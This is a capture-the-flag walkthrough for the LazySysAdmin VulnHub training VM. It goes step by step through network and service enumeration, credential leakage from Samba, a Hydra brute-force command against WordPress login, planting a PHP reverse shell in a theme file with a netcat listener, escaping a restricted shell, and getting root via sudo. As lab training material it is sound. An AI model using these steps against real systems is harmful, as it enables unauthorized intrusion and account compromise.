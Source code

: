 # LazySysAdmin: 1 Walkthrough
[VulnHub link](https://www.vulnhub.com/entry/lazysysadmin-1,205/)  
By Togie Mcdogie

## **Prerequisites**
Before starting, ensure the following:

1. **LazySysAdmin VM**: Running on VMware or a similar hypervisor.
2. **Attacking Machine**: A penetration testing OS like Kali Linux.
3. **Knowledge**: Basic familiarity with Linux and penetration testing tools.

---

## **1. Network Configuration and Target Discovery**
Ensure both the LazySysAdmin VM and the attacking machine are on the same network. To discover the target's IP address, perform a network scan using `nmap`:

```bash
nmap 192.168.48.1/24
```

### **Sample Output:**
```plaintext
Nmap scan report for 192.168.48.170
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)
```

The target IP address is **192.168.48.170**, with SSH (port 22) and HTTP (port 80) open.

---

## **2. Bind Target IP to a Domain Name**
To simplify referencing the target, bind its IP address to a domain name in your `/etc/hosts` file:

```bash
sudo nano /etc/hosts
```

Add the following line:
```plaintext
192.168.48.170 lazysysadmin.com
```

Verify the changes:
```bash
cat /etc/hosts
```

### **Expected Output:**
```plaintext
127.0.0.1 localhost
192.168.48.170 lazysysadmin.com
```

---

## **3. Service Enumeration**
Perform a detailed scan to identify running services and their versions:

```bash
nmap -sV 192.168.48.170
```

### **Sample Output:**
```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql   MySQL 5.7.12-0ubuntu1
6667/tcp open  irc     InspIRCd 2.0
```

The target is running several services, including **SSH**, **HTTP**, **Samba**, **MySQL**, and **IRC**.

---

## **4. Enumerating HTTP Services**
Visit the web application hosted on port 80 by navigating to:

```plaintext
http://lazysysadmin.com/
```

Analyze the site for potential vulnerabilities. Use **Gobuster** to enumerate directories:

```bash
gobuster dir -u http://lazysysadmin.com/ -w /usr/share/wordlists/dirb/common.txt
```

### **Sample Output:**
```plaintext
/info.php (Status: 200)
/phpmyadmin (Status: 301)
/wordpress (Status: 301)
```

The `phpmyadmin` and `wordpress` directories are potential targets for further investigation.

---

## **5. Gaining Access to MySQL Database**
Visit `http://lazysysadmin.com/phpmyadmin`. After attempting to log in, an error indicates that the connection to the MySQL server failed. This suggests further investigation is required.

Using **enum4linux** or **smbmap**, extract credentials from the Samba service running on port 139:

```bash
enum4linux 192.168.48.170
```

### **Sample Output:**
```plaintext
username: Admin
password: TogieMYSQL12345^^
```

Log in to phpMyAdmin with these credentials:

```plaintext
http://lazysysadmin.com/phpmyadmin
```

---

## **6. Exploring the WordPress Site**
Access the WordPress site at:

```plaintext
http://lazysysadmin.com/wordpress
```

Use **wpscan** to enumerate vulnerabilities and user accounts:

```bash
wpscan --url http://lazysysadmin.com/wordpress --enumerate u
```

### **Sample Output:**
```plaintext
[+] Enumerating Users...
[+] Found User: admin
```

Attempt to brute-force the password for `admin` using **Hydra** or **rockyou.txt**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt lazysysadmin.com http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:Invalid password'
```

After retrieving the password, log in to WordPress to check for file upload vulnerabilities.

---

## **7. Gaining Reverse Shell**
Upload a PHP reverse shell to the WordPress theme editor (e.g., `comments.php`). Use the reverse shell located at `/usr/share/webshells/php/php-reverse-shell.php`:

1. Modify `$ip` and `$port` in the script to match your attacking machine.
2. Paste the script into the theme file.
3. Start a Netcat listener on your attacking machine:

```bash
nc -v -l -p 1234
```

4. Trigger the reverse shell by visiting the modified page.

After obtaining a shell, upgrade it to a fully interactive TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## **8. Privilege Escalation**
### Escaping a Restricted Shell
If the shell is restricted (e.g., `rbash`), use the following techniques:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Alternatively, use `vi`:

```plaintext
:set shell=/bin/sh
:shell
```

### Gaining Root Access
Run the following command to check for `sudo` privileges:

```bash
sudo -l
```

### **Sample Output:**
```plaintext
User togie may run the following commands on this host:
(root) ALL
```

Execute:

```bash
sudo su
```

You now have root access. Navigate to `/root` to retrieve the flag.

---

## **9. Concluding Remarks**
This walkthrough demonstrates enumeration, exploitation, and privilege escalation techniques on the LazySysAdmin VM. Always ensure you have explicit permission before testing any system.

For further practice, consider revisiting services like MySQL, Samba, and WordPress to explore additional attack vectors.

